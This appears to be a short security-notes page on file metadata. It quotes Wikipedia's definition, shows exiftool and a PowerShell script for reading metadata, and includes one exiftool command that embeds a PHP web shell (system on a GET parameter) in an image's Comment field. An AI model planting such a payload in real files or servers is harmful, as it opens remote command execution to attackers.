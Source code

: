 # Metadata

## Metadata

If you want to find information about a file, this is when metadata comes into place.

 **Metadata** is "[data](https://en.wikipedia.org/wiki/Data) that provides information about other data".[\[1\]](https://en.wikipedia.org/wiki/Metadata#cite_note-1) In other words, it is "data about data". Many distinct types of metadata exist, including **descriptive metadata**, **structural metadata**, **administrative metadata**,[\[2\]](https://en.wikipedia.org/wiki/Metadata#cite_note-Metadata_Basics_Outline-2) **reference metadata**, **statistical metadata**[\[3\]](https://en.wikipedia.org/wiki/Metadata#cite_note-:4-3) and **legal metadata**. This text was extracted from [Wikipedia](https://en.wikipedia.org/wiki/Metadata).

### exiftool

We can use the exiftool to extract metadata:

```text
exiftool filename
```

Insert metadata:

```text
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' image.jpg
```

### PowerShell Get-FileMetaData

The [Get-FileMetaDataReturnObject.ps1](https://github.com/mattlite/powershell/blob/master/Get-FileMetaDataReturnObject.ps1) script contains a single function. The function is the **Get-FileMetadata** function. I load the function in the Windows PowerShell ISE, and run it to copy the function into memory. After I have done that, I call the function and pass it an array of folder paths. I get the array of folder paths by using the **Get-ChildItem** cmdlet. Here is the command that performs a recursive lookup of a folder named pics and pulls out the directory paths in that folder. This is a single line command that has wrapped.

```text
$picMetadata = Get-FileMetaData -folder (Get-childitem E:\pics -Recurse -Directory).FullName
```

## References

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-find-metadata-from-photograph-files/" %}



